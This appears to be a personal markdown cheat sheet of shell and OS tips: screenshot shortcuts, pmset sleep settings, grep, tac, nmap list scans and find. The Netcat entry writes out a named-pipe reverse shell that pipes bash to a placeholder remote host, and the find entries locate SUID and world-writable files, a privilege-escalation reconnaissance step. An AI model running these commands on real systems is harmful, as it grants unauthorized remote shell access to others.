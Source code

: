 # Screenshots
## OS X
- Command-Shift-3: Full screen to desktop
- Command-Shift-4, select an area: Area to desktop
- Command-Shift-4, space, click a window: Window to desktop
- Command-Control-Shift-3: Full screen to clipboard
- Command-Control-Shift-4, select an area: Area to clipboard
- Command-Control-Shift-4, space, click a window: Window to clipboard

## Windows
- PrtScr: full screenshot to clipboard
- Windows-PrtScr: full screen to "Screenshots" folder
- Alt-PrtScr: active window to clipboard


# OS X Power Saving
- Temporarily turn off sleep
```
sudo pmset noidle
```
- Turn off sleep
```
sudo pmset sleep 0
```
- Sleep after 15 minutes
```
sudo pmset sleep 15
```

# Netcat
- When -e flag does not exist:
```
mknod /tmp/datapipe p
/bin/bash 0</tmp/datapipe | nc remote.host.com port 1>/tmp/datapipe
```

# grep
- multiple search terms:
```
grep -e term1 -e term2 <file>
```

- exclude term:
```
grep -v term <file>
```

- exclude multiple terms:
```
grep -v -e term1 -e term2 <file>
```

- Print file names and line numbers for matches:
```
grep -Hn term
```

- Case insensitive:
```
grep -i term <file>
```

# tac (backwards cat)

This is part of the *GNU coreutils* package. It reads and prints a
file from the bottom up. VERY useful for logfiles.

- Linux
```
tac logfile | less
```

- OS X / BSD
```
gtac logfile | less
```

- BSD *tail -r*
```
tail -r logfile | less
```

# Using Nmap to generate lists of IP addresses

- Sometimes a tool will not allow you use CIDR notation to express
network addresses, or will require you to provide it a list of IP
addresses. Nmap provides the -sL (list scan) option that can generate
these lists easily, complete with host and network exclusion, ranges,
and so on:

```
nmap -n -sL 10.10.0.0/22 10.100.0.32/27 192.168.0.2-254 \
            --exclude 192.168.0.250,10.10.0.3.254       \
            | grep "Nmap scan report for"               \
            | awk {'print $5'}
```

- You can also omit the -n flag and easily resolve ranges of IP
addresses. If an IP address resolves, it will display "hostname (ip
address)". If it does not resolve, it will simply display the IP
address:


```
nmap -sL 10.10.0.0/22 | awk {'print $5, $6'}
```

# find

- Find suid binaries:

```
find / -perm -04000 -exec ls -l {} \; 2>/dev/null
```

- Find world-writable files:

```
find / -type f -perm -o=w -exec ls -l {} \; 2>/dev/null
```